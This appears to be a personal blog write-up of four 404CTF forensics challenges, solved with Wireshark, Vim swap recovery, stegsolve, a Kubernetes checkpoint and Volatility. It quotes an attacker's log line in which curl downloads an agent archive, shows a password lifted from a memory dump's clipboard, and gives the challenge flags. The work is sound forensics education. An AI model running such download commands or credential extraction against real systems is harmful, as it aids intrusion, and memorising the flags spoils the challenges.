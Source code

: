 ```yaml
---
layout: "@layouts/blog/Layout.astro"
title: "404CTF Writeup - Forensics"
description: "404CTF - Forensics Category: The science of investigating and analyzing evidence"
author: "Majed Abdennadher"
timestamp: 1687283789355
duration: 10
tag: "404CTF"
slug: "forensics"
language: "english"
image: "/static/media/404ctf/event_logo.png"
keywords: ["Cybersecurity", "404CTF", "Cryptography"]
links: ["reverse", "binary", "web"]
---
```


### Pêche au livre

Quite an classic challenge. Just open the pcap capture with wireshark. We immediately see an unencrypted HTTP exchange.
Textually, the string `404CTF{...` is not present, so we need to look at the non-textual content: the images:

![](/static/media/404ctf/peche-au-livre-1.png)

The flag is: `404CTF{35SY_W1r35h4rk}`

### Le Mystère du roman d’amour

In this challenge, we are handed Vim swap file `fichier-etrange.swp` and to solve the challenge with must find:

- the PID of the crashed process
- the full path to the file in question (spaces allowed): both the exact form found in the challenge and the extended form beginning with / validate the challenge
- the name of Rouletabille's (a character) friend
- the name of the machine
- the **TEXT** content of the draft of his book (if you have something other than text, keep searching: you need to find text content that clearly resembles the beginning of a novel). Once this content has been found, it will be clearly indicated which part to use to submit the flag (it will be a leet string).

We can use the `file` command to inspect the file given to use and we already find a lot of informations:

```bash
file fichier-etrange.swp
# fichier-etrange.swp: Vim swap file, version 7.4, pid 168, user jaqueline, host aime_ecrire, file ~jaqueline/Documents/Livres/404 Histoires d'Amour pour les bibliophiles au coeur d'artichaut/brouillon.txt
```

Then we can actually recover the file by opening it in vim using `vim -r fichier-etrange.swp`. We notice that the content is really an image, as revealed by the header `\x89PNG\r\n\x1A\n`.
We then recover it by typing `:w restored.png` in vim.

Here is the image we find:
![](/static/media/404ctf/mystere-du-roman-d-amour-1.png)

We can then use `stegsolve` (_instructions in another blog post [here](/blog/404ctfs/stegano/#l%C5%93uvre)_).
In `stegsolve` we can walk through the different color channels until we stumble upon something interesting: QR code.

![](/static/media/404ctf/mystere-du-roman-d-amour-2.png)

I scanned this image with my phone and I got the following text:

```
Il était une fois, dans un village rempli d'amour, deux amoureux qui s'aimaient...

Bien joué ! Notre écrivaine va pouvoir reprendre son chef-d'oeuvre grâce à vous !
Voici ce que vous devez rentrer dans la partie "contenu du fichier" du flag : 3n_V01L4_Un_Dr0l3_D3_R0m4N
```

Concatenating all of this information, we find the flag: <span class="break-words">`404CTF{168-~jaqueline/Documents/Livres/404 Histoires d'Amour pour les bibliophiles au coeur d'artichaut/brouillon.txt-jaqueline-aime_ecrire-3n_V01L4_Un_Dr0l3_D3_R0m4N}`</span>

### Les Mystères du cluster de la Comtesse de Ségur

A checkpoint-bash_default-bash-2023-05-06T090421Z.zip file is provided.

At first, I tried to see if I could get the flag for free with it:

```bash
grep -ir 404CTF checkpoint-bash_default-bash-2023-05-12T09:04:21Z
```

No chance.

Let's look at the files manually. A rather interesting file `io.kubernetes.cri-o`. In particular `io.kubernetes.cri-o.LogPath` logs everything that has been executed by the container in the Kubernetes cluster.

```bash
cat checkpoint-bash_default-bash-2023-05-12T09:04:21Z/io.kubernetes.cri-o.LogPath
```

On this file, we can see that a user has become root. Close inspection of this file shows that the attacker is executing:

```bash
....
curl agent.challenges.404ctf.fr -o agent.zip
unzip agent.zip
....
```

Doing the same as they did, when we unzip the `agent.zip` archive, we find a file containing the flag: <span class="break-words">`404CTF{K8S_checkpoints_utile_pour_le_forensic}`</span>.

### Lettres volatiles

In this challenge, we are given an archive file `C311M1N1.zip` containing the home directory of a user on a machine. Let's start by unzipping the file and searching for clues
in various directories such as Images, Downloads, and Documents.

Soon enough, we come across the file `s3cr37.zip` in the `/Documents/perso` folder, which requires a password (this ZIP file contains a suspicious PDF).
Cracking passwords can be time-consuming, so let's explore a more efficient method. While walking through the file system, I found a mysterious file named `C311M1N1-PC-20230514-200525.raw`.
It could be anything but given the challenge's name, there's a chance that it could be a RAM (volatile memory) dump. A widely used tool for analyzing such dumps is [`volatility`](https://github.com/volatilityfoundation/volatility/wiki/Installation).

_[This](https://cyberarms.wordpress.com/2011/11/04/memory-forensics-how-to-pull-passwords-from-a-memory-dump/) is one of the first articles I read about using the tool and also happens to be a good Introduction._

```bash
# Retrieve some information on the RAM dump
vol.py -f C311M1N1-PC-20230514-200525.raw imageinfo
```

The password could be anywhere, and I spent some time looking in different places until I found it: in the clipboard.

```bash
# Dump the clipboard
vol.py -f C311M1N1-PC-20230514-200525.raw --profile Win7SP1 clipboard
# ... Z1p p4s5wOrd : F3eMoBon8n3GD5xQ ...
```

We can now unzip the secrets archive:

```bash
unzip -P F3eMoBon8n3GD5xQ s3cr37.zip
```

Inside, we find this letter:
![](/static/media/404ctf/lettres-volatiles-1.png)

And at the bottom of it, we discover the flag: <span class="break-words">`404CTF{V0147i1I7y_W1Ll_N3v3r_Wr8_loV3_l3ttEr5}`</span>
